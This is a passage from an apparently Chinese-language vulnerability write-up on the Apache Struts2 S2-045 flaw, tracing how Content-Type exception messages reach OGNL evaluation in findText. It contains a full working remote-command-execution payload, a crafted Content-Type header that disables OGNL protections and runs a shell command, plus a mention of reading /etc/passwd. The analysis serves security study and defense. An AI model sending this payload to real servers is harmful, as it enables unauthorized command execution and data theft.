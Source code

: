 ```java
      }
      InputStream input = ctx.getInputStream();
  	  // ……
    }
  }  
```

分析到这里已经对整个异常的处理有所了解，而根据官方描述Content-Type中可以注入ognl表达式，那么根据上述分析struts2在处理request时，抛出的content-type异常当中则会含有ognl表达式，那怎么才能执行呢，我们回到  ***JakartaMultiPartRequest.java*** 中对异常的处理部分跟踪 ***buildErrorMessage*** ，发现如下代码片段

```java
protected String buildErrorMessage(Throwable e, Object[] args)
  {
    String errorKey = "struts.messages.upload.error." + e.getClass().getSimpleName();
    if (LOG.isDebugEnabled()) {
      LOG.debug("Preparing error message for key: [#0]", new String[] { errorKey });
    }
    return LocalizedTextUtil.findText(getClass(), errorKey, this.defaultLocale, e.getMessage(), args);  //findText
  }
```

看一下[官方](https://struts.apache.org/maven/struts2-core/apidocs/com/opensymphony/xwork2/util/LocalizedTextUtil.html)对findtext的定义：

> If a message is found, it will also be interpolated. Anything within ${...} will be treated as an OGNL expression and evaluated as such.

所以到此为止也就明白，findtext有执行ognl的能力，Content-Type抛出的异常中${···}里的内容将以ognl被执行，如果ognl精心构造后也就能执行系统命令

### POC & EXP

**POC分析**

```
header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

通过#nike='multipart/form-data'语句使得后台判断语句content_type.contains("multipart/form-data")判断结果为true，以便攻击代码得以传入。同时将攻击代码'cat /etc/passwd'赋值给#cmd参数。接下来通过(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})来判断目标主机的操作系统类型，并选择性的进行指令赋值，最终，通过如下图代码，将攻击指令执行

**批量检测POC执行效果**

![s2-045-bd](http://reverse-tcp.xyz/img/struts2/s2-045-bd.png)
